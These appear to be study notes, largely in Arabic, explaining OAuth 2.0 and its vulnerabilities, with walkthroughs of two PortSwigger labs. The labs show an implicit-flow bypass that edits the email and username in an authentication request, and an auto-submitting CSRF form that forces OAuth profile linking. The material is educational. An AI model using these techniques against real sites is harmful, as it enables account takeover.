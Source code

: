 # OAauth 

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>







- <details>
     <summary>How do OAuth authentication vulnerabilities arise?</summary>
     
     # ⚠️ كيف تنشأ ثغرات OAuth Authentication؟
     
     ## 💡 أسباب ظهور الثغرات
     1. **مرونة الـ OAuth Spec**  
        - البروتوكول مش صارم وبيعتمد على إعدادات اختيارية كتير.  
        - ده بيخلي فيه مساحة لسوء إعداد (Misconfiguration).  
     
     2. **قلة وجود خصائص أمان مدمجة**  
        - الأمان بيعتمد على الـ Developers يطبقوا الإجراءات الصح (زي input validation).  
        - لو حصل إهمال → يؤدي إلى ثغرات خطيرة.  
     
     3. **إرسال بيانات حساسة عبر المتصفح**  
        - بعض الـ Flows (زي Authorization Code أو Implicit) بيعدي فيها بيانات حساسة (Access Token) من خلال المتصفح.  
        - ده ممكن يستغله المهاجم لاعتراض البيانات.  
     
     ---
     
     ## 🔍 التعرف على OAuth Authentication
     - أي موقع فيه زر **"Login with Google/Facebook/GitHub"** → غالبًا بيستخدم OAuth 2.0.  
     
     ### الطريقة الأكيدة عبر Burp:
     - شغّل Burp Proxy واعمل تسجيل دخول باستخدام Social Login.  
     - أول طلب في الـ Flow بيكون رايح على:  
     
     ```
     /authorization
     ```
     
     - وبيحتوي على باراميترات مميزة لـ OAuth:  
       - `client_id` → رقم تعريف التطبيق.  
       - `redirect_uri` → الرابط اللي هيتم التحويل عليه بعد الموافقة.  
       - `response_type` → نوع الـ Grant (token / code).  
       - `scope` → البيانات المطلوبة (مثلاً: profile, email).  
       - `state` → قيمة عشوائية لمنع CSRF.  
     
     ---
     
     ## 📌 مثال Request
     ```http
     GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
     Host: oauth-authorization-server.com
     ```
     
     ---
     
     ## 📝 الخلاصة
     - **سبب الثغرات:** مرونة البروتوكول + سوء الإعداد + مرور بيانات حساسة عبر المتصفح.  
     - **إزاي نكشفه:** نحلل الـ Requests في Burp ونشوف باراميترات OAuth (`client_id`, `redirect_uri`, `response_type`, إلخ).  
     
          
</details>


























# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>






<details>
     <summary>Lab: Forced OAuth profile linking</summary>

> ## **`To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete carlos. `**
>
>  The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

> You can log in to your own accounts using the following credentials:

-  Blog website account:`` wiener:peter``
-  Social media profile:`` peter.wiener:hotdog``


----

1. login with ``wiener:peter``

<img width="1273" height="537" alt="image" src="https://github.com/user-attachments/assets/ff27a0db-4598-4647-b7ba-a28c62d40fb9" />

2. click **``Attach a social profile``**

<img width="907" height="437" alt="image" src="https://github.com/user-attachments/assets/80696210-7ea5-4def-9f15-518fd442c4aa" />

3. now click on **``Attach a social profile``** again and see the request 

```http
GET /oauth-linking?code=YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x HTTP/2
Host: 0af400fc034fa721828c2e1b008a00fe.web-security-academy.net
Cookie: session=zhztY0fc04nIrQw0u2jRWNHd4UdZ6hl7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

4. after that do **`CSRF poc`**


```html
<html>
<body>
  <form action="https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/oauth-linking" method="GET">
    <input type="hidden" name="code" value="YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
   
5. store it and send it to victem 

<img width="1248" height="399" alt="image" src="https://github.com/user-attachments/assets/9f87e559-8142-48b3-aed0-9c5bc5904b3d" />

6. after that go back to ****`my-account`**** you will find that usernme disappeared


<img width="1237" height="551" alt="image" src="https://github.com/user-attachments/assets/161ee210-ee49-43bd-b910-e2f726be7c61" />

7. now logout and login again but with socialmedia profile **`peter.wiener:hotdog`**

<img width="1460" height="464" alt="image" src="https://github.com/user-attachments/assets/fc767282-bf95-4610-b139-a0d0cada186b" />

<img width="1422" height="450" alt="image" src="https://github.com/user-attachments/assets/b65ab03a-f146-42c5-b836-36b498f27959" />


     
</details>







































 
